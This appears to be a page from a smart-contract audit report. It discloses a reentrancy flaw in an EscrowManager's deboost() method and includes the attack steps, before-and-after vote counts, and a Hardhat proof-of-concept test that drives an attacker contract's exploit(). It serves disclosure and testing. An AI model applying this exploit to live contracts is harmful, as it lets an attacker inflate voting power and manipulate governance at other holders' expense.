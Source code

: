 **Example 1**: Reentrancy in the `deboost()` method with duplicate boosters.

An attacker can exploit a reentrancy vulnerability in the `deboost()` method, manipulating the boosting mechanism to their advantage:
1. The attacker calls the `deboost()` method and passes the same boosting NFT ID multiple times, e.g., `deboost(escrowId, [1,1,1,1,1,1,1,1])`.
2. During the transfer process, the `deboost()` method triggers a callback to the attacker’s contract.
3. Each time the attacker’s contract receives the NFT, it transfers the NFT back to `EscrowManager`.

As a result, the escrow boosting coverage can be reduced to zero, even though other boosting NFTs may still be present and not withdrawn. This makes subsequent calculations inaccurate, disproportionately **inflating** the attacker’s `lockAmount` and voting power.

In the following proof-of-concept (PoC), after the attacker calls `deboost()`, their voting power **increases** significantly:
```
Hacker votes before deboost: 4402998660126770n
Hacker votes after  deboost: 1105121050824042828n
```

The PoC consists of two parts of code. First, the js-part:
```
await checkDeboostReentrancy(
    "aliceTokenId3", 
    "Common2", 
    "eywa NFT locked without boost");
async function checkDeboostReentrancy(
    aliceTokenId, eywaTokenId, description) {
describe(`Test reentrancy`, () => {
  describe("Test", () => {
  it("Test Reentrancy", async () => {
    const { eywaNFT, escrowManager, alice, AliceTokenId, TokenId } = 
          await loadFixture(deploy);
    
    const otherBoosters = 
    await escrowManager.getBoostersByTokenId(AliceTokenId["aliceTokenId4"])
    
    await escrowManager.connect(alice).deboost(
        AliceTokenId["aliceTokenId4"], [otherBoosters[0]])
    await eywaNFT.connect(alice).approve(
        await escrowManager.getAddress(), otherBoosters[0])
    await escrowManager.connect(alice).boost(
        AliceTokenId[aliceTokenId], [otherBoosters[0]])
    console.log(
        await escrowManager.getBoostersByTokenId(AliceTokenId[aliceTokenId]))

    const hackerContract = await (
        await ethers.getContractFactory("HackerHolder")).deploy(
          await escrowManager.getAddress(),
          AliceTokenId[aliceTokenId],
          TokenId[eywaTokenId],
          await escrowManager.COLLECTION(),
    )
    const hackerAddress = await hackerContract.getAddress()
    await escrowManager.connect(alice).transferFrom(
        alice, hackerAddress, AliceTokenId[aliceTokenId])
    console.log("Hacker votes before deboost", 
                await escrowManager.getVotes(hackerAddress))
    await hackerContract.exploit()
    console.log("Hacker votes after  deboost", 
                await escrowManager.getVotes(hackerAddress))
  })
})
})
```